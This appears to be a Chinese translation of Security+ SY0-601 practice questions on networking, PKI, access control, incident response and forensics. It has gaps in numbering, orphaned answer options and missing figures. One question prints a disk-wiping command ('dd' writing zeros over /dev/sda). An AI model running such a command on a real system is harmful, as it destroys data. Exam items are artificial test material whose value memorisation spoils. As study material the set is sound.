128. 在与公司合作的 CA 颁发证书的过程中，Marie 需要证明她是公司的有效代表。CA 会执行额外步骤以确保她确实是其所声称的人，并且她的公司是合法的，且并非所有 CA 都能颁发此类证书。她获得的是哪种类型的证书？

- A. EV 证书
- B. 域名验证证书
- C. 组织验证证书
- D. OCSP 证书

129. Mark 想要提供尽可能高带宽的无线连接。他应该选择以下哪项？

- A. LTE 蜂窝网络
- B. 蓝牙
- C. NFC
- D. 802.11ac Wi-Fi

135. Jennifer 正在考虑使用基础设施即服务云提供商来托管其组织的 Web 应用程序、数据库和 Web 服务器。以下哪项不是她选择部署到云服务的原因？

- A. 支持高可用性
- B. 直接控制底层硬件
- C. 底层存储的可靠性
- D. 复制到多个地理区域

136. 此图显示了一种安全管理接口的示例。用什么术语描述使用管理接口或受保护替代方式来管理设备和系统？



- A. DMZ
- B. 带外管理
- C. 带内管理
- D. TLS

137. Chris 已经将他部门计算机的 BitLocker 加密密钥提供给其组织的安全办公室，以便他们在发生调查违规事件时能够解密计算机。这个概念叫什么？

- A. 密钥托管
- B. BitLocker 保险柜
- C. 密钥提交
- D. AES 监狱

148. Damian 设计并构建了一个只能在公司网络内部访问的网站。用什么术语来描述这种内部资源？

- A. 内联网
- B. 外联网
- C. DMZ
- D. TTL

149. Walter 部署的防火墙会检查通过它的系统发送的每个数据包，确保每个数据包都符合防火墙运行和过滤流量所依据的规则。这描述的是哪种类型的防火墙？

- A. 下一代
- B. 无状态
- C. 应用层
- D. 有状态

150. Nancy 想在使用移动设备时保护和管理她的 RSA 密钥。她可以购买哪种解决方案来确保密钥安全，以便她能够执行公钥认证？

- A. 基于应用的 PKI
- B. OPAL 加密驱动器
- C. MicroSD HSM
- D. 离线 CA

151. Oliver 需要解释 Windows 和 Linux 文件系统使用的访问控制方案。它们默认实现哪种访问控制方案？

- A. 基于角色的访问控制
- B. 强制访问控制
- C. 基于规则的访问控制
- D. 自主访问控制

152. Stefan 刚刚成为一所大学的新安全官。他担心在校园里工作到很晚的学生工作人员可能会尝试使用教职员工凭据登录。以下哪项对防止这种情况最有效？

- A. 时间段限制
- B. 使用审计
- C. 密码长度
- D. 凭据管理

153. 下一代防火墙包含许多尖端功能。以下哪项不是常见的下一代防火墙功能？

- A. 地理位置
- B. IPS 和/或 IDS
- C. 沙箱
- D. SQL 注入

154. Greg 知道当交换机不知道某个节点在哪里时，它会发送广播尝试查找它。如果其广播域内的其他交换机也不知道该节点，它们也会广播该查询，这可能会产生大量流量并迅速失控放大。他希望在不导致网络无法正常运行的情况下防止这种情况。什么端口级安全功能可以启用来防止这种情况？

- A. 使用 ARP 阻止。
- B. 阻止所有广播数据包。
- C. 启用风暴控制。
- D. 以上都不是

155. Isaac 正在设计其云数据中心的面向公众的网络，并希望正确实施分段以保护其应用服务器，同时允许客户访问其 Web 服务器。他应应用什么设计概念来实现这种安全环境？

- A. 反向代理服务器
- B. DMZ
- C. 正向代理服务器
- D. VPC

156. Jennifer 担心公司里有些人拥有超出应有的权限。这是因为人员从一个职位调到另一个职位，累积的权限超过了他们当前工作的要求。以下哪项最能有效缓解此问题？

- A. 权限审计
- B. 工作轮换
- C. 防止工作轮换
- D. 职责分离

157. Susan 被要求加固其环境中的系统，并希望确保如果系统被盗或其磁盘驱动器被盗并被访问，数据无法恢复。在这些情况下，她确保数据安全的最佳选择是什么？

- A. 部署文件夹级加密。
- B. 部署全磁盘加密。
- C. 部署文件级加密。
- D. 对所有驱动器消磁。

158. Chloe 注意到公司网络上的用户经常使用由常见单词组成的简单密码。因此，他们的密码很弱。Chloe 如何最好地缓解此问题？

- A. 增加最小密码长度。


- B. 让用户更频繁地更改密码。

- C. 要求密码复杂度。

- D. 实施单点登录 (`SSO`)。

159. 哪种 Wi-Fi 协议实现了等同方同时认证 (`SAE`) 以改进之前的安全模型？

- A. WEP

- B. WPA

- C. WPA2

- D. WPA3

160. Megan 想设置一个可以发放给访客的账户。她配置了一个自助服务终端应用程序，允许她组织中的用户赞助访客，设置用户在现场的时间，然后允许他们登录账户，设置密码并使用 Wi-Fi 和其他服务。Megan 创建了什么类型的账户？

- A. 用户账户

- B. 共享账户

- C. 访客账户

- D. 服务账户

161. Henry 想将 Web 服务部署到他的云环境供客户使用。他希望能够看到正在发生的事情，并在客户造成问题时在不关闭服务的情况下阻止滥用。他应实施哪两件事来实现这一点？

- A. API 网关和日志记录

- B. API 密钥和通过 API 网关的日志记录

- C. 以 API 为中心的 IPS 和 API 代理

- D. 以上全部

162. Patrick 被要求为他的组织识别 UTM 设备。以下哪项功能不是 UTM 设备的常见功能？

- A. IDS 和/或 IPS

- B. 防病毒

- C. MDM

- D. DLP

163. 正在创建公司范围的政策来定义各种安全级别。以下哪种访问控制系统会为信息使用 Confidential 或 Secret 等记录的安全级别？

- A. RBAC

- B. MAC

- C. DAC

- D. BAC

164. 此图像显示了一种代理类型。显示的是什么类型的代理？


- A. 正向代理

- B. 弹射代理

- C. 下一代代理

- D. 反向代理

165. Gurvinder 正在审查身份验证事件的日志文件，注意到他的一个用户已从公司芝加哥总部的系统登录。不到一个小时后，同一用户被记录为从一个 IP 地址登录，该 IP 地址根据地理 IP 工具显示来自澳大利亚。他应将此标记为什么类型的问题？

- A. IP 地址配置错误

- B. 不可能旅行时间、风险登录问题

- C. 地理 IP 查找问题

- D. 以上都不是

166. 您网络中的用户能够为自己的共享资源分配权限。您网络中使用了以下哪种访问控制模型？

- A. DAC

- B. RBAC

- C. MAC

- D. ABAC

167. Cynthia 正在准备新服务器进行部署，她的流程包括关闭不必要的服务，将安全设置与她组织的基线配置相匹配，并安装补丁和更新。此流程被称为什么？

- A. 操作系统加固

- B. 安全提升

- C. 配置管理

- D. 端点锁定

168. John 正在作为安全审计的一部分对网络进行端口扫描。他注意到域控制器正在使用安全 LDAP。以下哪个端口会让他得出这一结论？

- A. 53

- B. 389

- C. 443

- D. 636

169. Chris 希望为其组织的服务器安全地生成和存储加密密钥，同时提供卸载 TLS 加密处理的能力。他应推荐什么类型的解决方案？

- A. 处于加密加速模式的 GPU

- B. TPM

- C. HSM

- D. 处于加密加速模式的 CPU

170. Tracy 希望保护她组织中的桌面和笔记本系统免受网络攻击。她希望部署一种工具，该工具可以根据签名、启发式和异常主动阻止攻击。她应部署什么类型的工具？

- A. 防火墙

- B. 反恶意软件

- C. HIDS

- D. HIPS

171. 以下哪种访问控制方法基于用户在组织中的职位授予权限？

- A. MAC

- B. RBAC

- C. DAC

- D. ABAC

172. UEFI 测量启动做什么？

- A. 记录系统启动所需的时间

- B. 记录加载的每个组件的信息，将其存储在 TPM 中，并可以向服务器报告

- C. 将加载的每个组件的哈希与存储在 TPM 中的已知哈希进行比较

- D. 检查 UEFI 的更新版本，并将其与当前版本进行比较；如果测量为过时，则更新 UEFI

- C. SAML

- D. 传递信任

179. MDM 和 UEM 之间的主要区别是什么？

- A. MDM 不包括补丁管理。

- B. UEM 不包括对移动设备的支持。

- C. UEM 支持更广泛的设备范围。

- D. MDM 修补域机器，而不是企业机器。

180. Kathleen 想实施零信任网络设计，并且知道她应该对网络进行分段。她仍然担心网络段内部的东/西流量。她应首先实施什么安全工具以确保主机免受网络威胁？

- A. 防病毒

- B. 基于主机的防火墙

- C. 基于主机的 IPS

- D. FDE

181. Gary 正在设计他的云基础设施，需要为他运行的虚拟系统提供类似防火墙的功能。以下哪种云功能充当虚拟防火墙？

- A. 安全组

- B. 动态资源分配

- C. VPC 端点

- D. 实例感知

182. Derek 已为他所在的小企业使用的 Windows 系统启用了自动更新。如果他想要一个完整的补丁管理系统，这些系统仍需要处理什么加固流程？

- A. Windows 补丁的自动安装

- B. Windows Update 回归测试

- C. 注册表加固

- D. 第三方软件和固件补丁

183. Theresa 实施基于网络的 IDS。她可以对通过 IDS 的流量做什么？

- A. 根据规则审查流量并检测并提醒不需要或不期望的流量。

- B. 根据规则审查流量并根据这些规则检测并阻止流量。

- C. 检测敏感数据是否被发送到外部世界，并在其通过 IDS 时对其进行加密。

- D. 以上全部

188. 下图显示了一个场景，其中交换机 X 由终端用户连接到网络并以比现有交换机更低的生成树优先级进行广告。以下哪种设置可以防止此类问题发生？



- A. 802.11n

- B. 端口召回

- C. RIP 防护

- D. BPDU 防护

189. Tracy 想限制用户可以登录独立 Windows 工作站的时间。她能做什么来确保名为“visitor”的账户只能在每个工作日的上午 8 点至下午 5 点之间登录？

- A. 运行命令 `net user visitor /time:M–F,8am–5pm`

- B. 运行命令 `net user visitor –daily –working–hours`

- C. 运行命令 `login limit:daily time: 8–5`

- D. 这无法通过 Windows 命令行完成。

190. Sheila 担心她的网络上的某些用户可能访问了他们不应访问的文件——具体来说，是不需要用于其工作任务的文件。以下哪一项最有效地确定是否发生了这种情况？

- A. 使用情况审计和审查

- B. 权限审计和审查

- C. 账户维护

- D. 策略审查

191. 在以下哪个场景中使用共享账户的安全风险最小？

- A. 对于一组技术支持人员

- B. 用于访客 Wi-Fi 访问

- C. 用于大学学生登录

- D. 对于权限较少的账户

192. Mike 的经理要求他验证其生产网站的证书链是否有效。她要求 Mike 验证什么？

- A. 证书未被撤销

- B. 访问网站的用户可以验证站点和链中的 CA 都值得信赖

- C. 用于创建证书的加密强度足够且未被破解

- D. 证书已正确签发，并且为同一系统签发的先前证书也已正确签发

193. Maria 负责一家小型公司的安全。她担心未经授权的设备连接到网络。她正在寻找设备身份验证流程。以下哪一项对她来说是最好的选择？

- A. CHAP

- B. Kerberos

- C. 802.11i

- D. 802.1X

194. 哪种无线标准使用 CCMP 为网络流量提供加密？

- A. WPA2

- B. WEP

- C. 红外

- D. Bluetooth

195. Charles 是保险公司的 CISO。他最近读到了一次攻击，其中攻击者能够枚举组织中的所有网络设备。所有这些都是通过使用单一协议发送查询完成的。Charles 应该保护哪个协议以减轻此攻击？

- A. SNMP

- B. POP3

- C. DHCP

- D. IMAP

196. Magnus 担心有人在他的公司使用密码破解器对计算机进行攻击。他担心破解者会尝试使用常见密码登录系统。以下哪一项最适合减轻这种威胁？

- A. 密码使用期限限制

- B. 密码最小长度要求

- C. 账户锁定策略

- D. 账户使用审计

197. Lucas 正在寻找一种基于 XML 的用于交换身份验证信息的开放标准。以下哪一项最能满足他的需求？

- A. SAML

- B. OAuth

- C. RADIUS

- D. NTLM

198. Joshua 正在寻找一种能够有效阻止会话劫持的身份验证协议。以下哪一项是他的最佳选择？

- A. CHAP

- B. PAP

- C. TACACS+

- D. RADIUS

199. Greg 的公司有一个远程位置，使用基于 IP 的流式安全摄像机系统。Greg 如何确保远程位置的网络设备可以像本地设备一样管理，并且到该远程位置的流量是安全的？

- A. 按需 TLS VPN

- B. 始终开启的 TLS VPN

- C. 始终开启的 IPsec VPN

- D. 按需 IPsec VPN

200. OPAL 标准规定了什么？

- A. 在线个人访问许可

- B. 自加密驱动器

- C. 个人账户和库的来源

- D. 用于消磁器的驱动器清理模式

201. 统一可扩展固件接口 UEFI Secure Boot 的作用是什么？

- A. 它在启动过程中防止蠕虫。

- B. 它验证启动期间加载的每个二进制文件的签名。

- C. 它验证系统 BIOS 版本。

- D. 以上全部

202. Derek 正在为他的公司选择一种身份验证方法。他需要一种能够与 Microsoft 和 Google 等提供的广泛服务一起工作的方法，以便用户可以自带身份。以下哪一项是他的最佳选择？

- A. Shibboleth

- B. RADIUS

- C. OpenID Connect

- D. OAuth

203. Jason 正在考虑部署网络入侵防御系统 IPS，并希望能够检测高级持续性威胁。哪种 IPS 检测方法最有可能在 APT 收集完正常操作基线信息后检测到其行为？

- A. 基于签名的 IPS 检测

- B. 基于启发式的 IPS 检测

- C. 恶意工具哈希 IPS 检测

- D. 基于异常的 IPS 检测

204. 哪种组件最常被用作现代 PC 硬件信任根的基础？

- A. CPU

- B. TPM

- C. HSM

- D. 硬盘或 SSD

205. Dennis 想要部署可以提供 URL 过滤的防火墙。他应该部署哪种类型的防火墙？

- A. 包过滤器

- B. 状态包检测防火墙

- C. 下一代防火墙

- D. 以上均不是

206. Waleed 的组织使用内部开发和商业应用程序的组合，将其部署到公司员工在整个公司使用的移动设备上。他可以使用哪种工具来处理自带设备手机和需要加载这些应用程序并在用户不再属于组织时从中移除这些应用程序的企业平板电脑的组合？

- A. MOM

- B. MLM

- C. MIM

- D. MAM

207. Charlene 正在准备一份关于云应用最常见应用安全问题的报告。以下哪一项不是云应用的主要关注点？

- A. 本地机器访问导致被入侵

- B. 应用配置错误

- C. 不安全的 API

- D. 账户被入侵

208. Samantha 负责的 CA 保持物理隔离，永远不会连接到网络。证书签发时，它们会生成然后通过可移动介质手动传输。这是什么类型的 CA，为什么 Samantha 的组织会以这种模式运行 CA？

- A. 在线 CA；它更快地生成和提供证书。

- B. 离线 CA；它更快地生成和提供证书。

- C. 在线 CA；它可防止 CA 根证书的潜在暴露。

- D. 离线 CA；它可防止 CA 根证书的潜在暴露。

209. Susan 配置了虚拟专用网络 VPN，以便发往其企业网络系统的流量通过 VPN 路由，但发送到其他目的地的流量通过 VPN 用户的本地网络发送出去。这种配置叫什么？

- A. Half-pipe

- B. Full-tunnel

- C. Split-tunnel

- D. Split horizon

210. Adam 遇到用户在网络上的交换机之间插入电缆的问题，这导致网络上的系统可用的同一目的地的多条路径。当这种情况发生时，网络会发生广播风暴，导致网络中断。他应该在交换机上启用什么网络配置设置以防止这种情况？

- A. 环路保护

- B. 风暴监控

- C. 粘性端口

- D. 端口检查

211. Charles 担心公司 Android 设备用户延迟 OTA 更新。Charles 为什么会担心这一点，他应该怎么做？

- A. OTA 更新修补应用程序，并且 NAC 代理会报告组织中的所有手机。

- B. OTA 更新更新设备加密密钥并且对安全是必要的，并且 PKI 会跟踪加密证书和密钥。

- C. OTA 更新修补固件并更新手机配置，并且 MDM 工具会提供固件版本和手机设置的报告。

- D. OTA 更新由手机发送以报告在线活动和跟踪，并且 MDM 工具接收 OTA 更新以监控手机

212. Ben 正准备为他的网络实施防火墙，并且正在考虑实施开源防火墙还是专有商业防火墙。以下哪一项不是开源防火墙的优势？

- A. 较低的成本

- B. 社区代码验证

- C. 维护和支持

- D. 获取速度

213. Barbara 想要实施 WPA3 Personal。以下哪项功能是 WPA3 相对于 WPA2 的主要安全改进？

- A. DDoS 监控与防护

- B. 每信道安全

- C. 暴力破解攻击防护

- D. 从 64 位加密改进到 128 位加密

214. Isaac 想要在基于 Android 的设备上实施强制访问控制。他可以通过什么方式实现这一目标？

- A. 在单用户模式下运行 Android。

- B. 使用 SEAndroid。

- C. 将 Android 注册表更改为 MAC 模式。

- D. 安装 MACDroid。

215. Greg 实现了一个系统，允许用户访问 administrator 和 root 等账户而无需知道这些账户的实际密码。当用户尝试使用提权账户时，他们的请求会与决定是否允许该请求的策略进行比较。系统每次在受信任用户请求访问时生成一个新密码，然后记录该访问请求。Greg 实现的是哪种类型的系统？

- A. MAC 系统

- B. PAM 系统

- C. FDE 系统

- D. TLS 系统

216. Alaina 已向其生产设施的员工发放了 Android 平板电脑，但由于大楼内有敏感数据，摄像头被禁用。她可以使用什么类型的工具来控制其发放的所有组织企业设备上的摄像头使用？

- A. MDM

- B. DLP

- C. OPAL

- D. MMC

222. 证书颁发机构颁发的证书最常见的格式是什么？

- A. DER

- B. PFX

- C. PEM

- D. P7B

223. Michelle 的组织在整个内部基础设施中使用自签名证书。在一次遭到破坏后，Michelle 需要撤销其中一个自签名证书。她该怎么做？

- A. 联系证书颁发机构，请求他们撤销该证书。

- B. 将该证书添加到 CRL 中。

- C. 从信任该证书的每台机器的白名单证书列表中移除该证书。

- D. 重新颁发证书，使旧版本失效。

224. 对于域验证的 X.509 证书，以下哪项不是验证对域的控制权的常见方式？

- A. 更改 DNS TXT 记录

- B. 回复发送到域 WHOIS 信息中联系人的电子邮件

- C. 发布证书颁发机构提供的随机数作为域信息的一部分

- D. 更改与该域关联的 IP 地址

225. Fiona 知道 SNMPv3 提供了早期版本 SNMP 所没有的额外安全功能。以下哪项不是 SNMPv3 提供的安全功能？

- A. SQL 注入防护

- B. 消息完整性

- C. 消息身份验证

- D. 消息机密性

226. 下图展示了一个正在使用的代理。在这种使用模式中，代理接收连接请求，然后连接到服务器并转发原始请求。这是哪种类型的代理？



- A. 反向代理

- B. 轮询代理

- C. 下一代代理

- D. 正向代理


## 第 4 章

### 运营与事件响应

**本章涵盖的 COMPTIA SECURITY+ 考试 SY0-601 主题包括：**

- ✓ 4.1 给定一个场景，使用适当的工具来评估组织安全性

- ✓ 4.2 总结事件响应的政策、流程和程序的重要性

- ✓ 4.3 给定一个事件，利用适当的数据源来支持调查

- ✓ 4.4 给定一个事件，应用缓解技术或控制措施来保护环境安全

- ✓ 4.5 解释数字取证的关键方面

1. Mila 想要为文件生成唯一的数字指纹，并且需要在校验和与哈希之间做出选择。她应该选择哪个选项，为什么？

- A. 哈希，因为它对文件是唯一的

- B. 校验和，因为它验证文件的内容

- C. 哈希，因为它可以被反转以验证文件

- D. 校验和，因为它比哈希更不易发生碰撞

2. 以下哪项可以防止用户在公司所有的移动设备上安装程序？

- A. 允许列表

- B. 拒绝列表

- C. ACL

- D. HIDS


3. Liam 负责监控公司的安全事件。他想了解使用其安全信息和事件管理（SIEM）时，不同事件之间可能如何关联。他有兴趣识别可能指向同一入侵的不同危害指标。以下哪项对他最有帮助？

- A. `NIDS`
- B. `PKI`
- C. 关联仪表板
- D. 趋势仪表板

4. Emily 想使用 `tcpdump` 捕获 HTTPS 数据包。如果服务运行在其默认端口上，且她的以太网适配器是 `eth0`，她应该使用哪个 `tcpdump` 命令？

- A. `tcpdump eth0 -proto https`
- B. `tcpdump -i eth0 -proto https`
- C. `tcpdump tcp https eth0`
- D. `tcpdump -i eth0 tcp port 443`

5. Mila 给她的团队一个场景，然后向他们提问：他们会如何响应、预计可能遇到哪些问题、以及他们将如何处理这些问题。她进行的是哪种类型的演练？

- A. 桌面演练
- B. 走查
- C. 模拟
- D. 演习

6. Murali 正准备从作为取证调查目标的各类设备和系统中获取数据。根据数据易失性顺序，以下哪种设备的数据最不易失？

- A. 备份
- B. CPU 缓存
- C. 本地磁盘
- D. 内存

7. 一名事件响应人员向 Henry 索要漏洞扫描结果。他很好奇为什么响应人员需要扫描结果。你会给他什么答案来解释为什么需要扫描结果以及它们为何有用？

- A. 扫描将显示攻击者使用的程序。
- B. 扫描将显示攻击前安装的软件版本。
- C. 易受攻击的服务将提供有关攻击者可能针对目标的线索。
- D. 扫描将显示防火墙和其他网络设备所在位置，以帮助进行事件分析。

8. 在下图中，事件响应过程的哪个阶段应放在 A 点？



- A. 模拟
- B. 审查
- C. 恢复
- D. 修补

9. Nick 正在查看 Windows 10 系统上运行的命令，发现 `route` 命令使用了 `-p` 标志运行。发生了什么？

- A. 使用 ping 命令发现路由。
- B. 路由的路径将被显示。
- C. 添加了一条将在重启之间保持的路由。
- D. 添加了一条将使用命令中所列路径的路由。

- C. 监管链
- D. 数字足迹

16. Henry 想要确定他正在评估的网络上有哪些服务。以下哪种工具将为他提供服务、端口及其状态的列表？

- A. `nmap`
- B. `route`
- C. `hping`
- D. `netstat`

17. Nathan 需要知道某个事件发生了多少次，并希望检查该事件的日志文件。如果每次发生都独立记录在 logfile.txt 日志文件中，并使用唯一事件 ID：event101，那么以下哪个 grep 命令会告诉他该事件发生了多少次？

- A. `grep logfile.txt -n 'event101'`
- B. `grep -c 'event101' logfile.txt`
- C. `grep logfile.txt -c 'event101'`
- D. `grep -c event101 -i logfile.txt`

18. Jacob 希望确保事件响应团队处理所有受事件影响的领域。用什么术语来描述团队用于确保所有相关人员得到适当对待的关系和沟通流程？

- A. `COOP`
- B. 利益相关者管理
- C. `PAM`
- D. 沟通规划

19. Susan 正在对位于同一数据中心的两台服务器的日志进行取证审查时，她注意到第一台服务器上的日志项恰好比第二台服务器上的匹配事件早一个小时发生。这种精确出现的最可能原因是什么？

- A. 攻击耗时一个小时才完成，使攻击者在一个小时后才获得对第二台机器的访问权限。
- B. 日志条目不正确，导致事件出现在错误的时间。
- C. 攻击者使用脚本使事件恰好相隔一个小时发生。
- D. 时间偏移导致事件看起来发生在不同的时间。

20. 在事件调查和操作安全监控中，域名系统（DNS）数据的主要用途是什么？

- A. DNS 数据用于捕获网络扫描。
- B. DNS 数据可用于识别域转移攻击。
- C. DNS 日志信息可用于识别访问已知恶意站点的恶意软件。
- D. DNS 日志信息可用于识别未经授权的登录。

32. Nelson在他负责的其中一个系统上发现了恶意软件，并希望在安全环境中对其进行测试。以下哪个工具最适合这种测试？

- A. `strings`
- B. `scanless`
- C. Cuckoo
- D. Sn1per

33. Lucca想要查看文件的元数据，以便确定文件的作者。他应该使用以下列表中的哪个工具？

- A. Autopsy
- B. `strings`
- C. `exiftool`
- D. `grep`

34. Isaac想要获取包含操作系统的系统镜像。在Windows系统上，他可以使用哪个工具来同时捕获实时内存？

- A. `dd`
- B. FTK Imager
- C. Autopsy
- D. WinDump

35. Jason正在进行取证调查，除了驱动器和文件之外，还检索到了物证。他应该如何记录他获取的物证？

- A. 使用`dd`对它们进行镜像，并确保生成有效的MD5校验和。
- B. 给它们拍照、贴上标签，并添加到监管链文档中。
- C. 联系执法部门以妥善处理这些物证。
- D. 聘请法律顾问，就如何在调查中处理物证提供建议。

36. Gary想要检查`example.com`的邮件服务器。他可以使用什么工具和命令来确定这一点？

- A. `nslookup -query =mx example.com`
- B. `ping -email example.com`
- C. `smtp -mx example.com`
- D. `email -lookup -mx example.com`

37. 以下哪个最适合分析实时SIP流量？

- A. 日志文件
- B. Wireshark
- C. Nessus
- D. SIPper

38. Andrea想要识别远程机器上的服务，并希望这些服务带有服务名称和其他常见详细信息。以下哪个工具不能提供这些信息？

- A. `netcat`
- B. `Sn1per`
- C. Nessus
- D. `nmap`

39. Joseph正在撰写取证报告，并希望确保包含适当的细节。在讨论系统分析时，以下哪项通常不会被包含？

- A. 验证系统时钟的时间设置
- B. 所使用的操作系统
- C. 创建镜像所使用的方法
- D. 系统来源人的照片

40. Greg认为攻击者一直在对他负责的一个Linux系统进行暴力破解密码攻击。他可以使用什么命令来确定是否存在这种情况？

- A. `grep "Failed password" /var/log/auth.log`
- B. `tail /etc/bruteforce.log`
- C. `head /etc/bruteforce.log`
- D. `grep "Failed login" /etc/log/auth.log`

41. Elaine想利用通过取证获得的硬盘内容来确定用户最近访问过哪些网站。以下哪个位置对她的调查没有用处？

- A. 浏览器缓存
- B. 浏览器历史记录
- C. 浏览器书签
- D. 会话数据

42. Jason想要获取网络取证数据。他应该使用什么工具来收集这些信息？

- A. `nmap`
- B. Nessus
- C. Wireshark
- D. SNMP

43. Ananth得知攻击者有时会使用`ping`来绘制网络地图。`ping`返回的哪些信息最有效地用于确定网络拓扑？

- A. TTL
- B. 发送的数据包
- C. 接收的数据包
- D. 传输时间

44. Susan发现了大约五个月前发生的一次入侵事件证据。她想进行事件调查，但担心数据是否仍然存在。在大多数组织中，什么策略决定了日志和其他数据的保留时间？

- A. 组织的数据分类策略
- B. 组织的备份策略
- C. 组织的保留策略
- D. 组织的法律保留策略

45. Selah在系统上执行了以下命令。她完成了什么？

```
dd if=/dev/zero of=/dev/sda bs=4096
```

- A. 将磁盘/dev/zero复制到磁盘/dev/sda
- B. 格式化/dev/sda
- C. 将零写入整个/dev/sda
- D. 克隆/dev/sda1

46. Jim正在准备关于其组织事件响应流程的演示文稿，并想解释为什么与整个组织中相关部门和人员的沟通很重要。以下哪项是组织在事件响应工作中与受影响区域的员工沟通并让他们参与的主要原因？

- A. 法律合规
- B. 保留策略
- C. 利益相关者管理
- D. COOP（连续性运营计划）

47. Elle正在为她的组织进行演练，希望尽可能接近真实事件。她应该举办哪种类型的活动来帮助她的组织获得这种真实世界的实践？

- A. 模拟演练
- B. 桌面推演
- C. 走查演练
- D. 兵棋推演

48. Erin想确定网络上有哪些设备，但不能使用端口扫描器或漏洞扫描器。以下哪种技术能提供最多关于网络上活动系统的数据？

- A. 以混杂模式运行Wireshark。
- B. 查询域中所有A记录的DNS。
- C. 查看网络中所有交换机的CAM表。
- D. 在本地工作站上运行netstat。

49. 哪个SIEM组件收集数据并将其发送到SIEM进行分析？

- A. 警报级别
- B. 趋势分析器
- C. 传感器
- D. 灵敏度阈值

50. Alaina将她的反恶意软件解决方案设置为将受感染的文件移动到安全的存储位置，而不将其从系统中删除。她启用了什么类型的设置？

- A. 清除
- B. 深度冻结
- C. 隔离
- D. 保留

51. Chuck所在公司的一位高级副总裁最近丢失了一部手机，手机中包含敏感的商业计划以及有关供应商、设计和其他重要材料的信息。在采访了副总裁之后，Chuck发现手机没有设置密码，也没有加密，而且无法远程擦除。Chuck应该建议他的公司采用什么类型的控制措施来帮助防止未来出现类似问题？

- A. 对受影响的手机使用遏制技术。
- B. 部署DLP系统。
- C. 部署MDM系统。
- D. 隔离受影响的手机。

52. Gabby所在的学校希望阻止学生浏览与学业无关的网站。哪种类型的解决方案最适合帮助防止这种情况？

- A. 内容过滤器
- B. DLP
- C. 防火墙
- D. IDS

53. Frank知道他感兴趣的取证信息存储在系统硬盘上。如果他想遵循易失性顺序，以下哪项应该在硬盘之后进行取证捕获？

- A. 缓存和寄存器
- B. 备份
- C. 虚拟内存
- D. RAM

**54.** Greg运行以下命令。会发生什么？

```
chmod -R 755 /home/greg/files
```

- A. `/home/greg/`中的所有文件都被设置为允许组读取、写入和执行，而Greg和其他人只能读取。
- B. 将删除`/home/greg/files`目录中所有文件的读取、写入和执行权限。
- C. `/home/greg/files`中的所有文件都被设置为允许Greg读取、写入和执行，而组和其他人只能读取。
- D. 将创建一个新目录，该目录对其他人具有读取、写入和执行权限，对Greg及其所在组具有只读权限。

**55.** Charles希望确保他所做的取证工作不可抵赖。他如何验证他的证明和文档以确保不可否认性？

- A. 加密所有取证输出。
- B. 对记录进行数字签名。
- C. 为所有镜像创建MD5校验和。
- D. 以上所有

**56.** Diana想要在Linux系统上使用命令行工具捕获物理内存的内容。以下哪个工具可以完成此任务？

- A. `ramdump`
- B. `system –dump`
- C. `memcpy`
- D. `memdump`

**57.** Valerie想要从Windows系统捕获页面文件。她可以在哪里找到该文件进行获取？

- A. `C:\Windows\swap`
- B. `C:\pagefile.sys`
- C. `C:\Windows\users\swap.sys`
- D. `C:\swap\pagefile.sys`

**58.** Megan需要在作为事件响应工作一部分的VMware环境中对虚拟机(VM)进行取证调查。对她来说，收集该VM的最佳方式是什么？

- A. 使用VMware内置工具作为快照
- B. 使用`dd`复制到外部驱动器
- C. 使用`dd`复制到内部驱动器
- D. 移除服务器驱动器后使用取证成像设备

59. 建立取证证据来源的关键取证概念是什么？

- A. 审计权
- B. 保存
- C. 证据保管链
- D. 时间线

60. 数字取证在反情报工作中最常扮演什么角色？

- A. 用于确定间谍窃取了什么信息。
- B. 用于分析情报机构使用的工具和技术。
- C. 用于情报人员的培训目的。
- D. 在反情报中不起作用。

61. 以下哪个群体通常不是事件响应团队的一部分？

- A. 执法部门
- B. 安全分析师
- C. 管理层
- D. 通讯人员

62. Bob 需要在两个安全区域之间阻止 Secure Shell (SSH) 流量。以下哪个 Linux iptables 防火墙规则会阻止从 10.0.10.0/24 网络到运行该规则的系统的流量？

- A. `iptables -A INPUT -p tcp --dport 22 -i eth0 -s 10.0.10.0/24 -j DROP`
- B. `iptables -D OUTPUT -p udp --dport 21 -i eth0 -s 10.0.10.255 -j DROP`
- C. `iptables -A OUTPUT -p udp --dport 22 -i eth0 -s 10.0.10.255 -j BLOCK`
- D. `iptables -D INPUT -p udp --dport 21 -i eth0 -s 10.0.10.0/24 -j DROP`

63. Maria 希望在特定脚本事件发生时，将条目添加到 Linux 系统日志中，以便发送到她的安全信息和事件管理（SIEM）设备。她可以使用什么 Linux 工具来实现这一点？

- A. cat
- B. slogd
- C. logger
- D. tail

64. Amanda 的组织目前没有事件响应计划。以下哪个理由不是她应该向管理层提出的支持创建计划的理由？

- A. 它将防止事件发生。
- B. 它将帮助响应者在压力下适当反应。
- C. 它将为组织准备应对事件。
- D. 它可能因法律或合规原因而必需。

65. 以下哪种情况最不可能导致数据恢复成为可能？

- A. 文件从磁盘中删除。
- B. 文件被较小的文件覆盖。
- C. 硬盘被快速格式化。
- D. 磁盘被消磁。

66. Henry 在准备取证调查时录制了从系统移除驱动器的视频。Henry 录制视频最可能的原因是什么？

- A. 满足易失性顺序
- B. 确立超出合理怀疑的罪责
- C. 确保数据保存
- D. 记录驱动器的保管链和来源

67. Adam 想使用一个工具来编辑驱动器的内容。以下哪个工具最适合该目的？

- A. Autopsy
- B. WinHex
- C. dd
- D. FTK Imager

68. Jill 想建立一个包含响应特定事件的所有步骤的清单。在她的网络安全编排、自动化和响应（SOAR）环境中，她应该创建什么类型的工件来实现这一点？

- A. 一份业务连续性计划
- B. 一个剧本
- C. 一份灾难恢复计划
- D. 一个运行手册

69. Alaina 想对哈希密码使用密码破解器。在她这样做之前，以下哪项信息对她来说最重要？

- A. 密码的长度
- B. 密码上次更改的日期
- C. 密码使用的哈希方法
- D. 密码使用的加密方法

70. Vincent 希望确保他的员工不会在分配的工作站上安装流行游戏。作为其终端安全解决方案的一部分，他可以部署什么类型的控制措施最有效地阻止这种情况？

- A. 一个应用程序批准列表
- B. 一个 DLP

87. Dana 想使用一个利用框架对她的组织进行真实的渗透测试。以下哪个工具符合该要求？

- A. Cuckoo
- B. theHarvester
- C. Nessus
- D. Metasploit

88. Cynthia 被要求为她的组织使用的 SOAR 系统构建一个剧本。她将构建什么？

- A. 一组规则，当使用收集或提供给 SOAR 系统的数据发生事件时将执行操作
- B. 一个自动化的事件响应流程，将运行以支持事件响应（IR）团队
- C. 一个由趋势分析驱动的脚本，将为 IR 团队提供指示
- D. 一组团队将执行的操作，以使用 SOAR 响应事件

89. 以下图片中缺少哪个事件响应步骤？



- A. 业务连续性
- B. 遏制
- C. 响应
- D. 发现

